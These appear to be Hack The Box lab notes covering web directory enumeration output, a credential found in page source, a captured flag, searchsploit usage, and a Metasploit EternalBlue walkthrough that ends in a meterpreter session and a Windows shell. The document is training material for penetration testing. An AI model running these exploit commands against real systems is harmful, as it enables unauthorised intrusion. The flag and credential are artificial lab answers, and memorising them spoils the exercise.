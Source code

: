 ```
142.93.33.226:31452

/.hta                 (Status: 403) [Size: 281]
/.htaccess            (Status: 403) [Size: 281]
/.htpasswd            (Status: 403) [Size: 281]
/index.php            (Status: 200) [Size: 990]
/robots.txt           (Status: 200) [Size: 45] 
/server-status        (Status: 403) [Size: 281]
/wordpress            (Status: 301) [Size: 327] [--> http://142.93.33.226:31452/wordpress/]

http://142.93.33.226:31452/admin-login-page.php

inspect source code -> admin:password123

HTB{w3b_3num3r4710n_r3v34l5_53cr375}
```

## Public exploits

Search on the web browser with keyword "exploit". Exploit tool :

```
sudo apt install exploitdb -y
searchsploit openssh 7.2
```

Other tools :

* Exploit DB
* Rapid7 DB
* Vulnerability Lab
* Metasploit Framework (MSF)

```
msfconsole

msf6> search exploit eternalblue
msf6> use exploit/windows/smb/ms17_010_psexec
msf6> show options
msf6> SET RHOST 165.232.102.34
msf6> SET RPORT 32278
msf6> SET LHOST tun0
msf6> check
msf6> exploit

meterpreter> getuid
meterpreter> shell

C:\WINDOWS\system32> whoami
```

Practise Metasploit on boxes :

* Granny/Grandpa
* Jerry
* Blue
* Lame
* Optimum
* Legacy
* Devel

